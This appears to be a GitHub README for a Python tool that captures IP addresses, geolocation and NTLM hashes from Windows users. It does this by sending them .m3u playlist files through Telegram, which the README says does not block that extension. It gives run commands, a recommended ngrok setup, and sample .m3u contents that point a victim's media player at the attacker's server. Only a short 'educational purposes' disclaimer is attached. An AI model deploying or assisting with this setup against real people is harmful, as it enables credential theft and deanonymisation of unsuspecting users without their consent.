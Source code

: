 # IP and NTLM Hash Detection Tool

A Python-based tool designed to capture IP addresses and NTLM authentication hashes from remote Windows clients using M3U files, primarily for security testing and educational purposes. This tool exploits the lack of blocking for the `.m3u` file extension in Telegram.

![m3u](https://github.com/user-attachments/assets/7051d51e-dee0-4304-9c3d-fd14c71f2e49)

## Demonstration

https://github.com/user-attachments/assets/ebd69f77-2ef5-4016-95da-8ee2749f7c25

## Overview

This tool sets up an HTTP server that:

- Logs client IP addresses and connection details.
- Attempts to capture NTLM authentication hashes when clients connect.
- Uses client-side JavaScript to detect and report public IP addresses.
- Generates `.m3u` files to trigger connections via media players.

## Features

- **IP Address Logging**: Records client IP addresses, ports, and connection details.
- **NTLM Hash Capture**: Requests and logs NTLM authentication hashes.
- **Public IP Detection**: Detects and reports clients' real public IP addresses using JavaScript.
- **Geolocation**: Identifies the geographic location of captured IP addresses.
- **Network Diagnostics**: Performs connectivity tests to ensure server accessibility.
- **Alternative Port Support**: Automatically tries alternative ports if the primary port is unavailable.

## Prerequisites

- Python 3.6 or higher
- Internet connectivity
- Open port access (may require firewall/router configuration)

## Installation

1. Clone the repository or download the script:

   ```bash
   git clone https://github.com/<your-repo>/ip-ntlm-hash-tool.git
   ```

2. Install required dependencies:

   ```bash
   pip install -r requirements.txt
   ```

## Usage

### Basic Usage

Run the script with default settings (port 8001, auto-detected IP):

```bash
python ipntlmhash.py
```

### Advanced Usage

Specify a custom IP address and port:

```bash
python ipntlmhash.py --ip 192.168.1.100 --port 8080
```

Try alternative ports if the primary port fails:

```bash
python ipntlmhash.py --alt-ports
```

### Command-line Options

| Option | Description | Default |
| --- | --- | --- |
| `--ip` | Specify the server IP address | Auto-detected |
| `--port` | Specify the port to listen on | 8001 |
| `--alt-ports` | Try alternative ports (80, 443, 8080, 8000) if primary fails | Disabled |

## Using with Ngrok (Recommended)

For public accessibility, especially behind NAT or firewalls, use ngrok:

1. Start the script:

   ```bash
   python ipntlmhash.py
   ```

2. In a separate terminal, start ngrok:

   ```bash
   ngrok http 8001
   ```

3. Ngrok will provide a public URL (e.g., `https://a1b2c3d4.ngrok.io`).

4. Edit the generated `.m3u` files to use the ngrok URL:

   - `ntlmv2_hash.m3u`:

     ```
     https://a1b2c3d4.ngrok.io/somefile.mp3
     ```

   - `ip_detect.m3u`:

     ```
     https://a1b2c3d4.ngrok.io/ip
     ```

## How It Works

1. The server listens for incoming connections on the specified port.
2. Upon client connection, it logs the IP address, port, and geolocation.
3. The server attempts NTLM authentication to capture hash data.
4. The `/ip` endpoint serves a JavaScript-based page to detect the client's public IP.
5. Clients report their public IP back to the server.
6. Generated `.m3u` files trigger connections when opened in media players.

## Output Files

- `ip_log.txt`: Logs of client connections and reported public IPs.
- `ntlm_log.txt`: Captured NTLM authentication data.
- `ipltlmhash.m3u`: Triggers both IP and NTLM hash capture.
- `ip_detect.m3u`: Directs clients to the IP detection page.

## Limitations

- NTLM hash capture depends on the client attempting NTLM authentication.
- Server accessibility requires proper network/firewall configuration.
- The tool captures NTLM hash data but does not fully process the handshake.
- Public IP detection requires JavaScript enabled in the client's browser.

## Security Note

This tool is intended for **educational purposes and authorized security testing only**. Unauthorized use against systems without permission may violate laws and regulations. Use responsibly and ethically.

## Troubleshooting

If you encounter connectivity issues:

- Ensure your firewall allows incoming connections on the server port.
- Set up port forwarding on your router if behind NAT.
- Use ngrok for reliable public access.
- Check the "Network Configuration Check" and "Server Accessibility Test" in the tool's output.
